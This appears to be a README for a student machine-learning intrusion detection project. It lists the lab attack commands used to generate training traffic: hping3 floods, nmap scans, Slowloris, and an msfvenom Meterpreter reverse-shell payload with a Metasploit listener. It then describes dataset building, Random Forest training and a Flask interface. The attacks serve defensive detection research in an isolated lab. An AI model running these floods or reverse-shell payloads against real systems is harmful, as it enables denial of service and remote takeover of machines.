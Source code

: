 # ML-IDS


Steps :- 
1. Project Planning & Objective Definition

-> Identified the need for a smarter, ML-based IDS.

-> Defined project aim: Detect various attacks in real time using machine learning.

2. Environment Setup

-> Set up host machine and two virtual machines (Attacker: Kali, Victim: Ubuntu).

-> Installed tools: Wireshark, Metasploit, Nmap, Scapy, CICFlowMeter, Flask, Python, joblib.

3. Attack Type Selection

-> We have chossen multiple attacks for the dataset | we have chosen these attacks on the basic of what type of protocols it uses also which port it targets

-> SYN Flood
   sudo hping3 -S -p 80 --flood 192.168.100.4

-> UDP Flood
  sudo hping3 --udp -p 53 --flood 192.168.100.4

-> ICMP Flood
  sudo hping3 -1 --flood 192.168.100.4

->  Nmap Scans
🔸 Normal TCP Connect Scan -> nmap -sT 192.168.100.4
🔸 Aggressive Scan with OS and Version Detection -> nmap -A -T4 192.168.100.4

-> FIN Scan
  sudo nmap -sF 192.168.100.4

-> NULL Scan
  sudo nmap -sN 192.168.100.4

-> Xmas Scan
  sudo nmap -sX 192.168.100.4

-> Protocol Obfuscation Attack (Slowloris attack performed using Python)

  intallation of slowloris
    -> git clone https://github.com/gkbrk/slowloris
        cd slowloris

  run the attack: 
  python3 slowloris.py 192.168.100.4


-> Reverse Shell (It is a Metasploit Payload)
   
payload creation: 

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.5 LPORT=4444 -f elf >         shell.elf
- chmod +x shell.elf

Starting Metasploit Listener: 

- msfconsole

{run this whole in one time}
- use exploit/multi/handler
  set PAYLOAD linux/x86/meterpreter/reverse_tcp
  set LHOST 192.168.100.5
  set LPORT 4444
  exploit

- Now Execute payload on victim

  ./shell.elf



-> Normal Traffic Generation

  - Basic Web Browsing
  -  File Transfer with Netcat :
        1. on victim : nc -l -p 1234 > received_file.txt
        2. on attacker : nc 192.168.100.4 1234 < sample_file.txt



-> HTTP Requests (run Together)
   - curl -X GET http://192.168.100.4/api/test
     curl -X POST -d "data=test" http://192.168.100.4/api/post



  
this command i have used in victim machine every attack time this helps me capturuing each and every network traffic capture and saves it with .pcap file

- sudo tcpdump -i eth0 -w attack_name_capture.pcap




4. Packet Capture

-> Generated traffic using tools like Metasploit, Nmap, Scapy.

-> Captured packets using Wireshark and tcpdump into .pcap files.

5. Flow Conversion

-> Converted .pcap files to flow-based .csv using CICFlowMeter.

6. Labeling and Combining Dataset

-> Labeled each flow file with its corresponding attack or "normal".

-> Combined all labeled .csv files into a single dataset (~900,000+ rows).

7. Data Preprocessing

-> Dropped irrelevant columns (e.g., IPs, timestamps).

-> Normalized features.

-> Encoded categorical features if needed.

8. Model Selection and Training

-> Tried multiple models: Random Forest, SVM, Logistic Regression.

-> Finalized Random Forest Classifier based on best accuracy.

9. Model Evaluation

-> Split data into training and test sets.

-> Evaluated using accuracy, precision, recall, F1-score.

-> Achieved ~98% accuracy.

10. Model Saving

-> Exported the trained model as best_ids_model.pkl using joblib.

11. Flask Web Application Development

-> Built a simple web interface using Flask and Bootstrap.

-> Created input form to enter flow features manually.

12. Model Integration with Flask

-> Loaded the trained model in Flask backend.

-> Created /predict route to classify input and return prediction.

13. Testing the Web App

-> Ran the Flask server.

-> Entered sample flow inputs into the web form.

-> Validated predictions (Normal/Attack Type).

14. Real-Time Simulation

-> Simulated new attacks live.

-> Captured and converted flows.

-> Tested prediction by entering new flows in the web app.

